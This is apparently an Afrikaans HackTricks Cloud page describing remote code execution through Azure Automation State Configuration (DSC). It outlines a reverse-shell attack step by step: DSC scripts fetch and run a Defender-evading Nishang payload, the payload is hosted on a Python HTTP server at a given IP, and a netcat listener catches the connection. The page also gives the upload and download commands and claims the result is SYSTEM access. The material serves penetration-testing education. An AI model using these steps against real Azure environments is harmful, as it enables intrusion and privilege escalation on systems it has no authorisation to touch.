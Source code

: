 # Az - State Configuration RCE

{% hint style="success" %}
Leer & oefen AWS Hack:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

**Kyk na die volledige plasing in: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Opsomming van Afgeleë Bediener (C2) Infrastruktuurvoorbereiding en Stappe

#### Oorsig
Die proses behels die opstel van 'n afgeleë bediener-infrastruktuur om 'n gewysigde Nishang `Invoke-PowerShellTcp.ps1` lading, genaamd `RevPS.ps1`, wat ontwerp is om Windows Defender te omseil, te huisves. Die lading word bedien vanaf 'n Kali Linux-masjien met IP `40.84.7.74` deur 'n eenvoudige Python HTTP-bedienaar. Die operasie word uitgevoer deur verskeie stappe:

#### Stap 1 — Skep Lêers
- **Benodigde Lêers:** Twee PowerShell-skripte is nodig:
1. `reverse_shell_config.ps1`: 'n Gewenste Toestandkonfigurasie (DSC) lêer wat die lading ophaal en uitvoer. Dit is beskikbaar by [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: 'n Skrip om die konfigurasie na die VM te publiseer, beskikbaar by [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Aanpassing:** Veranderlikes en parameters in hierdie lêers moet aangepas word aan die gebruiker se spesifieke omgewing, insluitend hulpbronnas, lêerpaadjies, en bediener/lading-identifiseerders.

#### Stap 2 — Stel Konfigurasie-lêer saam
- Die `reverse_shell_config.ps1` word saamgedruk in 'n `.zip` lêer, sodat dit gereed is vir oordrag na die Azure Bergingsrekening.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Stap 3 — Stel Stoor Konteks & Laai op
- Die saamgedrukte konfigurasie lêer word na 'n vooraf gedefinieerde Azure Stoorhouer, azure-pentest, geüpload deur gebruik te maak van Azure se Set-AzStorageBlobContent cmdlet.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Stap 4 — Berei Kali-boks voor
- Die Kali-bediener laai die RevPS.ps1-vragstuk af vanaf 'n GitHub-opgaarplek.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Die skrips is aangepas om die teiken Windows VM en poort vir die omgekeerde dop te spesifiseer.

#### Stap 5 — Publiseer Konfigurasie-lêer
- Die konfigurasie-lêer word uitgevoer, wat daartoe lei dat die omgekeerde-dop-skrips na die gespesifiseerde ligging op die Windows VM ontplooi word.

#### Stap 6 — Gasheer Nutlading en Stel Luisteraar op
- 'n Python SimpleHTTPServer word gestart om die nutlading te gasheer, saam met 'n Netcat luisteraar om inkomende verbindinge vas te vang.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Die geskeduleerde taak voer die nutslading uit, wat SYSTEM-vlak voorregte behaal.

#### Gevolgtrekking

Die suksesvolle uitvoering van hierdie proses open tallose moontlikhede vir verdere aksies, soos kredensiaal-uitstorting of die uitbreiding van die aanval na verskeie VM's. Die gids moedig voortgesette leer en kreatiwiteit aan binne die domein van Azure Automation DSC.

{% hint style="success" %}
Leer & oefen AWS Hack: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}
